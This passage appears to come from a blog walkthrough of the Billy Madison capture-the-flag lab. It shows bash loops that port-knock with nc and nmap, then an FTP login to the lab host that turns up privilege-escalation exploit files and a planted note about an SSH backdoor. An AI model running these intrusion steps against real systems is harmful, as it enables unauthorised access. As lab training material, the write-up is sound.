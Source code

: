 .
QUIT
{% endhighlight %}

Eric has gained access to Billy's system.  

## Port Knocking to FTP

Ok lets follow in those steps.  The youtube video https://www.youtube.com/watch?v=z5YU7JwVy7s provides an amusing little bit of Billy Madison along with a series of numbers that should be the port knocking code to get in.

`1066, 1215, 1466, 1467, 1469, 1514, 1981, 1986` perfect I have the port knock sequence all set, or so I thought.  I attempted to then knock using a simple bash script:

{% highlight bash %}
for x in 1066 1215 1466 1467 1469 1514 1981 1986; do nc -p 44423 $x; sleep 2; done;
{% endhighlight %}

Fail!  Next I tried the nmap command instead, still nothing.  What else.  OK, maybe its the first two with the correct Spanish Armada `1588`, no dice.  I then proceed to try UDP and a ton of various other combinations all failed.  And then I listened to the video again and wrote down precisely what he said for the Spanish Armada - `1466 67 1469 1514 1981 1986 1588`.

{% highlight bash %}
for x in 1466 67 1469 1514 1981 1986 1588; do nmap -Pn --host_timeout 201 --max-retries 0 -p $x 192.168.244.157; done
root@kali:~/evidence/billymadison1.0# ftp 192.168.244.157
Connected to 192.168.244.157.
220 Welcome to ColoradoFTP - the open source FTP server (www.coldcore.com)
Name (192.168.244.157:root): eric
331 User name okay, need password.
Password:
230 User logged in, proceed.
Remote system type is UNIX.
ftp> ls -al
200 PORT command successful.
150 Opening A mode data connection for /.
-rwxrwxrwx 1 ftp 1287 Aug 20 12:49 9129
-rwxrwxrwx 1 ftp 868 Sep 01 10:42 .notes
-rwxrwxrwx 1 ftp 5208 Aug 20 12:49 39773
-rwxrwxrwx 1 ftp 6326 Aug 20 12:49 40049
-rwxrwxrwx 1 ftp 9132 Aug 20 12:49 40054
-rwxrwxrwx 1 ftp 5367 Aug 20 12:49 39772
226 Transfer completed.
ftp> -
{% endhighlight %}

Score!  I proceeded to download all the files, five of which were local priv escalation exploits (score!) and a `.notes` file.

{% highlight text %}
Ugh, this is frustrating.  

I managed to make a system account for myself. I also managed to hide Billy's paper
where he'll never find it.  However, now I can't find it either :-(.
To make matters worse, my privesc exploits aren't working.  
One sort of worked, but I think I have it installed all backwards.

If I'm going to maintain total control of Billy's miserable life (or what's left of it)
I need to root the box and find that paper!

Fortunately, my SSH backdoor into the system IS working.  
All I need to do is send an email that includes
the text: "My kid will be a ________ _________"

Hint: https://www.youtube.com/watch?v=6u7RsW5SAgs

The new secret port will be open and then I can login from there with my wifi password, which I'm